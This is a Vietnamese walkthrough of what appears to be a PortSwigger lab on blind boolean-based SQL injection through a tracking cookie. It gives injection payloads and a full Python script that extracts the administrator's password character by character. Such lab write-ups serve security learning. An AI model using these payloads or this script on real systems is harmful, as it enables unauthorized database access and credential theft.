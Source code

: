 ![image](https://github.com/user-attachments/assets/cf3cd172-0285-4229-a592-c71ba52b8fce)

![image](https://github.com/user-attachments/assets/d29f71fd-9470-45b7-a3f6-aeaba961016d)

Đây là bài lab khi ta bắt đầu. Nếu đúng thì nó sẽ luôn trả về data.

Dù ta có nháy đơn hay nháy kép kiểu gì thì nó cũng k cho ta dấu hiệu gì hết.

Vậy thì nó là blind rồi. Tiến hành check dựa vào boolen based

![image](https://github.com/user-attachments/assets/e033b939-01b9-417b-bd74-912902b7b37e)

![image](https://github.com/user-attachments/assets/d42d3e5d-922a-4e15-ad93-8e9e633ca1ba)

Dựa vào đây thì ta có thể biết chắc chắn được nó bị sqli rồi và nếu như bạn có thắc mắc là tại sao dùng `and` mà không dùng `or` ??. Câu trả lời là hoàn toàn được nhé.

Nếu dùng or thì bạn cần phải tìm data không có trong sql table thì khi đó bạn or thì mới biết nó có tác dụng

Ví dụ dễ hiểu sẽ là:

```
-999' or 1 = 1 --+
```

Thì nếu như select vào 1 data không tồn tại như này mà kết quả nó vẫn phản hồi ra gì đó thì bạn biết là nó bị sqli rồi còn gì, bởi or là chỉ cần 1 vế đúng thì sẽ select được còn gì.

vì vậy theo tôi cả 2 đều đúng. Và nếu sử dụng thì tôi rcm `and` vì nó khá trực quan và dễ hiểu. Còn `or` thì thường dùng để bypass login. Nói chung là cứ tùy trường hợp nhé, k cần cứng nhắc phải theo cái gì đó.

![image](https://github.com/user-attachments/assets/d045caac-cafb-4813-8540-7de80c9769d0)

Tiến hành check xem bảng users có tồn tại hay không.

Tại sao lại check như này. thì ta quay lại với sql syntax nhé.

![image](https://github.com/user-attachments/assets/17e84d4f-bdf2-4c70-89b1-7b7a10121c20)

Đó nếu bảng đó tồn tại thì nó sẽ là như này.

![image](https://github.com/user-attachments/assets/e32d122a-98a5-4e45-8b33-e165f1d65558)

Nếu bảng không tồn tại thì nó sẽ là như này. vì đó chỉ là select chuỗi nên là chuối k quan trọng khi nào không có `'` thì mới là truy vấn column

Nhớ nhé, vậy là ta đã check được bảng users có tồn tại.

Kiểm tra xem administrator có trong bảng users không.

![image](https://github.com/user-attachments/assets/b3ac3ef5-5f8c-44b8-99b0-3aa73797eec3)

Vậy là có tồn tại.

![image](https://github.com/user-attachments/assets/82267cc7-4fdc-41b0-9b9d-3078e23c8a00)

![image](https://github.com/user-attachments/assets/5565e3e0-0c1f-428a-9344-0409d4ef49fd)

Thử tiếp với >2, >3, … cho đến khi "Welcome back" biến mất, ta xác định được mật khẩu dài 20 ký tự.

![image](https://github.com/user-attachments/assets/c7518b27-8543-4686-a21b-4063b70757ae)

Vậy là tôi đã biết kí tự đầu tiên bắt đầu bằng chữ y. tiến hành bruteforce tiếp.

Payload:

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

Tiếp tục như vậy nhé.

Nhưng tôi là người lười, nên sẽ viết script để chạy v:

Đây là script của tôi. python nó chạy hơi chậm á, nếu muốn nhanh thì bạn cứ bruteforce = intruder rồi ghép lại.

```
import requests
import string

# Cấu hình request
URL = "https://0abb009b04d0e82284dd5fad00b400cd.web-security-academy.net/filter?category=Pets"
BASE_TRACKING_ID = "PF5r86UIm4PzfbU2"
COOKIES = {"session": "BN2PtienwI7n7n1r6ZajVzIzOFDSzD3d"}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0abb009b04d0e82284dd5fad00b400cd.web-security-academy.net/"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits  # "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

def is_correct_guess(response):
    """ Kiểm tra nếu response có chứa 'Welcome back' (hoặc dấu hiệu khác của server). """
    return "Welcome back" in response.text  # Cần kiểm tra response thực tế từ server để chắc chắn

def brute_force_password():
    password = ""

    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"{BASE_TRACKING_ID}' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username='administrator')='{char}"
            COOKIES["TrackingId"] = payload

            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug

            response = requests.get(URL, cookies=COOKIES, headers=HEADERS)

            if is_correct_guess(response):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Password hoàn chỉnh: {password}")
            break

    return password

# Chạy script
final_password = brute_force_password()
print(f"Password cuối cùng: {final_password}")
```

![image](https://github.com/user-attachments/assets/157604a8-58e6-42eb-bee3-72c5c820c38f)

Và cứ tiếp tục như thế sẽ ra mật khẩu cuối cùng.

![image](https://github.com/user-attachments/assets/14c7b8d7-c957-4373-a9b1-c6163ca58a86)

Và sẽ thành công. Và tôi cũng đã làm bằng 2 cách.


